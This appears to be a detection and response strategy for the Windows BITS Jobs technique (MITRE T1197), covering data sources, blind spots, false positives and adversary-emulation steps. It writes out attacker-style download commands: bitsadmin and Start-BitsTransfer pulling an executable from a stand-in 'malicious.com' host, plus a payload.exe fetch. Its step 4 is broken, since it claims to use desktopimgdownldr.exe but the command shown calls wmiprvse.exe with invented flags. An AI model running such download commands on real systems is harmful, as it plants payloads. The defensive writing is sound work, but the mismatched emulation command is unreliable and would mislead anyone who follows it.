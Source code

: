 # Alerting & Detection Strategy for BITS Jobs (T1197)

## **Goal**
The primary goal of this technique is to detect adversarial attempts to bypass security monitoring using Windows Background Intelligent Transfer Service (BITS). This method allows adversaries to download files from the internet covertly, evading traditional detection mechanisms like firewalls and antivirus solutions.

## **Categorization**

- **MITRE ATT&CK Mapping:** T1197 - BITS Jobs
- **Tactic / Kill Chain Phases:** 
  - Defense Evasion
  - Persistence
- **Platforms:** Windows

[MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1197)

## **Strategy Abstract**
The detection strategy involves monitoring and analyzing the use of BITS for downloading files. This includes examining:
- Command-line usage (e.g., `bitsadmin`)
- PowerShell commands
- Execution patterns that indicate persistence attempts

Key data sources include event logs, command execution traces, and network traffic associated with BITS activities.

## **Technical Context**
Adversaries use BITS to perform background file transfers without detection. The technique is executed using:
- Command Prompt: Utilizing `bitsadmin` for downloads.
- PowerShell: Leveraging cmdlets like `Start-BitsTransfer`.
  
Adversaries may target system persistence by downloading and executing malicious payloads covertly.

**Example Commands:**
- **Cmd:** `bitsadmin /transfer "download" https://malicious.com/file.exe C:\path\to\file.exe`
- **PowerShell:** 
  ```powershell
  Start-BitsTransfer -Source https://malicious.com/file.exe -Destination C:\path\to\file.exe
  ```

## **Blind Spots and Assumptions**
- **Limitations:**
  - Detection may miss BITS jobs initiated through obfuscated or encoded commands.
  - Encrypted transfers complicate traffic analysis.

- **Assumptions:**
  - The environment has access to comprehensive event logs and network monitoring tools.
  - BITS is not disabled in the system's security policies.

## **False Positives**
Potential benign activities that could trigger false alerts include:
- Legitimate use of `bitsadmin` for software updates or large file transfers by authorized applications.
- Scheduled tasks using BITS for routine backups or synchronizations.

## **Priority**
**Severity: High**

Justification: 
- The ability to download and execute files covertly without detection poses a significant threat to system integrity and data security.
- Exploitation of this technique can lead to persistent access and lateral movement within the network.

## **Validation (Adversary Emulation)**
### Steps for Emulating T1197 in a Test Environment:

1. **Bitsadmin Download (cmd):**
   - Execute: `bitsadmin /transfer "download" https://example.com/file.exe C:\downloads\file.exe`
   
2. **Bitsadmin Download (PowerShell):**
   - Execute:
     ```powershell
     Start-BitsTransfer -Source https://example.com/file.exe -Destination C:\downloads\file.exe
     ```

3. **Persist, Download, & Execute:**
   - Create a scheduled task that triggers the BITS download and execution upon system start.

4. **Bits Download using desktopimgdownldr.exe (cmd):**
   - Use `desktopimgdownldr.exe` to download a file:
     ```cmd
     "C:\Windows\System32\wbem\wmiprvse.exe" /f:\\path\\to\\payload.exe http://example.com/payload.exe
     ```

## **Response**
When an alert is triggered, analysts should:
- Verify the source and legitimacy of the download.
- Assess whether any downloaded files are malicious through file analysis tools.
- Check for persistence mechanisms linked to BITS jobs.

Additional steps include isolating affected systems and conducting a thorough investigation into network traffic patterns associated with detected BITS activities.

## **Additional Resources**
For further reference and context, consider exploring:
- Suspicious usage of `desktopimgdownldr.exe`.
- Monitoring web request commands (`bitsadmin`) for unusual targets.
- Analysis of downloads from file-sharing websites to uncommon or suspicious directories.
- Reviewing logs for files downloaded with unusual extensions via BITS. 

These resources provide additional insights into identifying and mitigating threats associated with the misuse of BITS.